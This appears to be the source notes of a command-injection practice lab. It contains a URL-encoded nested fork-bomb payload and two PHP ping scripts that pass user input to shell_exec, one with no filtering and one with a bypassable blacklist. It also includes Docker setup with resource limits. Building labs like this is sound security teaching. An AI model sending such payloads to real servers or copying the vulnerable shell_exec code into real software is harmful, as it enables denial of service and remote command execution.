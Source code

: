 

fork bomb
`while+true%3b+do+sh+-c+"while+true%3b+do+sh+-c+'while+true%3b+do+sh+-c+%3a+%3b+done'+%26+done"+%26+done`

`docker run --name test16 -dit --restart always --cpus 0.2 --memory 256m --pids-limit 100 -p 10101:80  rce1`

ping.php
```
<?php
if (isset($_GET['ip'])) {
    print_r(shell_exec('ping -c 1 '.$_GET['ip']));
} else {
    echo "Something went wrong";
}
?>
```

ping_v2.php
```
<?php
if (isset($_GET['ip'])) {
    if (preg_match('/[\|&\$ ]/', $_GET['ip'])) {
        die("Error: Invalid host or IP address.");
    }
    print_r(shell_exec('ping -c 1 '.$_GET['ip']));
} else {
    echo "Something went wrong";
}
?>
```

```
FROM php:7.2-apache

RUN mv "$PHP_INI_DIR/php.ini-production" "$PHP_INI_DIR/php.ini"
RUN sed -i 's/^;\{0,1\}memory_limit = .*/memory_limit = 32M/' "$PHP_INI_DIR/php.ini"

HEALTHCHECK --interval=30s --timeout=10s --retries=3 \
  CMD curl --fail http://localhost/?cmd=uptime || exit 1

COPY src/ /var/www/html/
RUN chmod a-w -R /var/www/
```
